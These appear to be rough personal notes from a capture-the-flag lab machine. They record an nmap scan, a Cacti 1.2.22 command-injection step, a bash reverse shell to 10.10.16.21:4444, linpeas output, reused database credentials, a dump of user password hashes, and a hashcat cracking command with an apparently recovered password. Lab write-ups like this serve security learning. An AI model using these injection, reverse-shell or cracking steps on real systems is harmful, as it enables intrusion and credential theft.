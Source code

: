 Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 11:19 IST
Nmap scan report for 10.10.11.211
Host is up (0.60s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 79.39 seconds

1.2.22 cve
got the shell

![](20230709021800.png)

how od we get a proper shell

cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi


172.19.0.3      50bca5e748b0

exec "$@"

can we put aproxychain and reach there?

 sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.21/4444 0>&1'

bash -c bash -i >& /dev/tcp/10.10.16.21/4444 0>&1

running linpeas

 /etc/mysql/mariadb.cnf                                                     
[client-server]

/etc/pam.d/common-password                                                                                          
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/caching_sha2_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/mysql_clear_password.so
/usr/lib/x86_64-linux-gnu/libmariadb3/plugin/sha256_password.so
/usr/local/include/php/ext/standard/php_password.h
/usr/share/pam/common-password
/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password
/var/www/html/auth_changepassword.php

╔══════════╣ Searching passwords in config PHP files
#$rdatabase_password = 'cactiuser';                                                                                 
$database_password = 'root';

```
bash-5.1$ mysql --host=db --user==root --password=root cacti -e "show tables"
mysql --host=db --user==root --password=root cacti -e "show table"
ERROR 1045 (28000): Access denied for user '=root'@'172.19.0.3' (using password: YES)
```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"

but this works

bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change     show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_treespolicy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts     lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb               on      on      on      on      on      2       1       1       1       1       on      -1 -1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3  11       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                      on      on      on      on      1       1       1       1       1       on      -1 -1               on      0       0       2135691668


using john.py

hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt

funkymonkeyw
